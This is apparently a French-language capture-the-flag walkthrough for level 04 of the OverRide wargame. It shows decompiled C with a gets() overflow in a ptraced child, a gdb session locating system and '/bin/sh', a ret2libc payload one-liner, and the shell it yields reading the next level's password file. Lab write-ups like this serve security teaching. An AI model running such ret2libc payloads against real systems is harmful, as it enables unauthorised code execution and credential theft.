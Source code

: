 # **Level 04**

Code decompiler,

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int stat_loc; // [esp+1Ch] [ebp-9Ch] BYREF
  char s[128]; // [esp+20h] [ebp-98h] BYREF
  int v6; // [esp+A0h] [ebp-18h]
  int v7; // [esp+A4h] [ebp-14h]
  int v8; // [esp+A8h] [ebp-10h]
  __pid_t v9; // [esp+ACh] [ebp-Ch]

  v9 = fork();
  memset(s, 0, sizeof(s));
  v8 = 0;
  stat_loc = 0;
  if ( v9 )
  {
    do
    {
      wait(&stat_loc);
      v6 = stat_loc;
      if ( (stat_loc & 0x7F) == 0 || (v7 = stat_loc, (char)((stat_loc & 0x7F) + 1) >> 1 > 0) )
      {
        puts("child is exiting...");
        return 0;
      }
      v8 = ptrace(PTRACE_PEEKUSER, v9, 44, 0);
    }
    while ( v8 != 11 );
    puts("no exec() for you");
    kill(v9, 9);
  }
  else
  {
    prctl(1, 1);
    ptrace(PTRACE_TRACEME, 0, 0, 0);
    puts("Give me some shellcode, k");
    gets(s);
  }
  return 0;
}
```
On remaque en testant le code qe si on rentre dans notre input un `buffer` de `156` characteres, le `child` ne se `quitte pas correctement`,
Essayons donc de faire de nouveau un `Ret2libc` mais depuis le `child`.
Pour executer correctement le child dans gdb et pouvoir recuperer les differentes adresses que l'ont a besoin pour l'exploit,
nous devons utiliser l'option de gdb, `set follow-fork-mode child`
Puis de nouveau on doit recuperer les adress de system et "/bin/sh",
```
level04@OverRide:~$ gdb ./level04 
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.
(gdb) set follow-fork-mode child
(gdb) b main
Breakpoint 1 at 0x80486cd
(gdb) run
Starting program: /home/users/level04/level04 

Breakpoint 1, 0x080486cd in main ()
(gdb) info func system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
(gdb) find __libc_start_main, +999999999, "/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```
Payload -> [156 char] [addr system] [4 char] [addr "/bin/sh"]
`python -c "print '\x90'*156 + '\xd0\xae\xe6\xf7' + '\xd0\xae\xe6\xf7' + '\xec\x97\xf8\xf7'" > /var/crash/file`
```
level04@OverRide:~$ python -c "print '\x90'*156 + '\xd0\xae\xe6\xf7' + 'AAAA' + '\xec\x97\xf8\xf7'" > /var/crash/file
level04@OverRide:~$ cat /var/crash/file - | ./level04 
Give me some shellcode, k
id
uid=1004(level04) gid=1004(level04) euid=1005(level05) egid=100(users) groups=1005(level05),100(users),1004(level04)
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
> ### NEXT : [Level 05](/level05/walkthrough.md)
